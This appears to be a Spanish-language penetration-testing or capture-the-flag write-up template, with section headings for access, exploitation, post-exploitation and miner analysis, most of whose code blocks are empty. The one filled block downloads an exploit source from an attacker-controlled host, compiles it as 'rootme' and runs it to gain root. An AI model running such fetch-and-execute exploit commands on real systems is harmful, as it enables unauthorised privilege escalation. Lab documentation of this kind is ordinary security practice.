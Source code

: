 
## 💣 4. Acceso inicial o administrativo


```shell
wget http://10.10.14.7:8080/44298.c
gcc 44298.c -o rootme -pthread
./rootme
```


## 🔓 5. Explotación


```shell

```


---


```shell

```


## 🐚 6. Post-explotación


### 



```plain text

```


---


## 🔍 7. Proceso y servicio sospechoso


```shell

```


---


---


## 📁 Análisis del miner


```shell

```
